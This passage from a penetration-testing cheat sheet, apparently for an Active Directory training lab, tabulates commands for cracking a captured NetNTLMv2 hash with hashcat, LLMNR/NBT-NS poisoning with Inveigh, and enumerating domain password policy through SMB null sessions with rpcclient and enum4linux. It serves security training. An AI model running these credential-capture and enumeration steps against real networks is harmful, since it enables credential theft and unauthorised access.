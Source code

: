 | `hashcat -m [hash mode] [hash] [wordlist]`              | `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`                                  | Uses Hashcat in NTLMv2 mode (5600) to crack the captured NetNTLMv2 hash using the RockYou wordlist.              |

---

### LLMNR/NBT-NS Poisoning – from Windows

| Command/Flag                                                         | Example                                                                               | Description                                                                                                           |
|----------------------------------------------------------------------|---------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|
| `Import-Module [PathToInveigh.ps1]`                                    | `Import-Module .\Inveigh.ps1`                                                          | Loads the Inveigh PowerShell module from the current directory.                                                     |
| `(Get-Command Invoke-Inveigh).Parameters`                              | `(Get-Command Invoke-Inveigh).Parameters`                                              | Displays all available parameters for the `Invoke-Inveigh` command.                                                   |
| `Invoke-Inveigh -LLMNR [Y/N] -NBNS [Y/N] -ConsoleOutput [Y/N] -FileOutput [Y/N]` | `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`                              | Starts Inveigh with LLMNR and NBNS spoofing enabled and outputs to both console and file.                             |
| `.\Inveigh.exe`                                                      | `PS C:\htb> .\Inveigh.exe`                                                             | Executes the compiled C# version of Inveigh on the Windows attack host, running with default settings.                |

--- 

### Enumerating the Password Policy – from Linux – Credentialed

| Command/Flag                                                        | Example                                                                                                                       | Description                                                                                             |
|---------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------|
| `crackmapexec smb [target IP] -u [username] -p [password] --pass-pol` | `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`                                                            | Retrieves the domain password policy over SMB using valid domain credentials.                         |
| `rpcclient -U "" -N [target IP]`                                     | `rpcclient -U "" -N 172.16.5.5`                                                                                               | Initiates an SMB NULL session with the target domain controller.                                     |
| `querydominfo`                                                      | `rpcclient $> querydominfo`                                                                                                   | Queries general domain information (users, groups, domain state) via RPC.                             |
| `getdompwinfo`                                                      | `rpcclient $> getdompwinfo`                                                                                                   | Retrieves detailed domain password policy settings.                                                   |

#### Enumerating the Password Policy – from Linux – SMB NULL Sessions

| Command/Flag                                                        | Example                                                                                                                       | Description                                                                                             |
|---------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------|
| `enum4linux -P [target IP]`                                           | `enum4linux -P 172.16.5.5`                                                                                                    | Enumerates the password policy via SMB NULL session on a Windows host.                                  |
| `enum4linux-ng -P [target IP] -oA [output basename]`                  | `enum4linux-ng -P 172.16.5.5 -oA ilfreight`                                                                                   | Uses enum4linux-ng to enumerate password policy and export data (JSON/YAML).                           |
| `cat [output file]`                                                  | `cat ilfreight.json`                                                                                                          | Displays the contents of the generated JSON file containing password policy information.              |

#### Enumerating the Password Policy – from Windows

| Command/Flag                                                        | Example                                                                                                                       | Description                                                                                             |